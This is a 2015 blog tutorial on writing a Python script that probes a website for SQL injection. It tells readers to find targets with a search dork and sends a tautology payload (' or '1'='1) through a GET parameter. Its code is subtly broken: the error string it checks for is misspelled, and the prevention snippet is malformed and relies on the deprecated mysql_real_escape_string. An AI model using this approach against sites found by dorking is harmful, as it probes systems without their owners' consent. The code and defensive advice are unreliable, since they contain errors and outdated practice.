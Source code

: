 ```yaml
---
title: How checking website vulnerability sql injection with simple code using python
date: '2015-11-07T22:51:00.000+07:00'
author: Arief JR
tags: [SQL Injection, Security]
categories: [python]
---
```


[**Checking Vulnerability Sql Injection with Simple Code using Python**](http://arief-jr.blogspot.com/) - Will discuss how to check the SQL injection security hole in a website using a simple code with a python.  
It only uses the GET parameters on the website  


> **dependencies:**  
> - python 3.4 or latest  
> - Internet Connection  
> - Vulnerability a Website  
> - Computer with Linux or Windows (here using Linux)  


If you're not install python, you can download python in http://python.org/downloads  

**A Glimpse Of Python**  

Python is written in C, it is one of the easiest programming languages to hacking tools, it includes a lot of very useful libs.  

**Finding Vuln Website For Testing**  

To find a website for testing using simple sqli dorks, like {inurl:"index.php?cat_id="}.  

**This Simple Code Sqli To Check For Vulnerabilities**  
Before starting, create new file with format .py e.g: sqli.py  

After that, then copy this code to a file that has been created:  


![](http://2.bp.blogspot.com/-DpjyfWZUhdY/Vj4XaA2e2TI/AAAAAAAACV0/ig5pM_6IFdc/s1600/snapshot12.png)


>   
> import sys  
> import urllib  
> import urllib.request  
>   
> fullurl = input("Please specify the vulnerable url: ")  
>   
> resp = urllib.request.urlopen(fullurl + "=1\\' or \\'1\\' = \\'1\\'")  
> body = resp.read()  
> fullbody = body.decode('utf-8')  
>   
> if "You have an error in you SQL syntax" in fullbody:  
> print ("The website is classic SQL injection vulnerable!")  
> else:  
> print ("The website is not classic SQL injection vulnerable!")  


Save and running with command $python sqli.py  

**How to prevent simple SQL injection**  

Preventing SQLi ON MYSQL if very simple. Just use mysql_real_escape string for queries, as example:  


>   
> $query = sprintf("SELECT * FROM users where user='%s' AND password='%s',  
>   
> mysql_real_escape_string($username)  
>   
> mysql_real_escape_string($password)  
>   

**Thanks**